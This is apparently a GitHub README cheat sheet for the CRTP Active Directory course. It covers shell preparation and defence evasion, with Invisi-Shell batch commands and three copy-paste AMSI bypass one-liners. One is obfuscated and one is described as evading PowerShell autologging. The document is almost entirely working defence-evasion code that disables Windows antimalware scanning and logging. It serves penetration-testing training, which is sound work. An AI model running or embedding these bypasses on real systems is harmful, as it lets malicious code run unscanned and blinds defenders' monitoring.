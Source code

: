 # CRTP_Skid
Commands and reference material useful for the CRTP course and Active Directory.

- [CRTP AD Attacks](#CRTP-Skid)
  - [Shell Prep & Defense Evasion](#Shell-Prep-&-Defense-Evasion)  
    - [Invisi-Shell](#Invisi-Shell)
    - [AMSI Bypass](#AMSI-Bypass)


## Shell Prep & Defense Evasion

#### Invisi-Shell (https://github.com/OmerYa/Invisi-Shell)
Invisi-Shell is used in the labs to bypass PowerShell security features by hooking .Net assemblies. Invisi-Shell uses a DLL and batch file for execution (two batch files dependant on current privilege level. Note - Invisi-shell may break certain functionality of certain programs run within shell.
```
C:\Path\RunWithRegistryNonAdmin.bat 
C:\Path\RunWithPathAsAdmin.bat
```
#### AMSI Bypass 

#### ‘Plain’ AMSI bypass example:
```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

```

#### Obfuscation example for copy-paste purposes:
```
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

```

#### Another bypass, which is not detected by PowerShell autologging:
```
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```
